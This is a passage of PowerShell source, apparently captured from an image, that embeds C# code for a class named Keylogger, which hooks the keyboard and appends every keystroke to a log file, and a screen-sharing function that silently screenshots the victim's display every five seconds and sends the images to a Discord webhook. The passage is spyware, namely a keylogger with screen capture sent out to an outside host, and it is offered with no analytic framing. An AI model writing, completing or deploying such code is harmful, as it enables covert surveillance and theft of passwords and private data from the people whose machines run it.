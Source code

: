 ```powershell
        private static extern IntPtr GetModuleHandle(string lpModuleName);

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        public static void Main() {
            _hookID = SetHook(_proc);
            Application.Run();
            UnhookWindowsHookEx(_hookID);
        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc) {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule) {
                return SetWindowsHookEx(WH_KEYBOARD_LL, proc, GetModuleHandle(curModule.ModuleName), 0);
            }
        }

        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam) {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN) {
                int vkCode = Marshal.ReadInt32(lParam);
                string key = ((Keys)vkCode).ToString();
                System.IO.File.AppendAllText(logFile, key + Environment.NewLine);
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }
    }
"@
    Add-Type -TypeDefinition $keyloggerScript
    [Keylogger]::Main()
}

# Screen Sharing Function
function Start-ScreenShare {
    $screenShareScript = @"
    using System;
    using System.Drawing;
    using System.Drawing.Imaging;
    using System.IO;
    using System.Net;
    using System.Threading;
    public class ScreenShare {
        private static string webhookUrl = "$webhookUrl";
        private static int interval = 5000; // 5 seconds

        public static void Main() {
            while (true) {
                try {
                    using (Bitmap bmp = new Bitmap(Screen.PrimaryScreen.Bounds.Width, Screen.PrimaryScreen.Bounds.Height)) {
                        using (Graphics g = Graphics.FromImage(bmp)) {
                            g.CopyFromScreen(0, 0, 0, 0, bmp.Size);
                        }
                        using (MemoryStream ms = new MemoryStream()) {
                            bmp.Save(ms, ImageFormat.Jpeg);
                            byte[] imageBytes = ms.ToArray();
                            string base64Image = Convert.ToBase64String(imageBytes);
                            SendToDiscord(base64Image);
                        }
                    }
                } catch { }
                Thread.Sleep(interval);
            }
```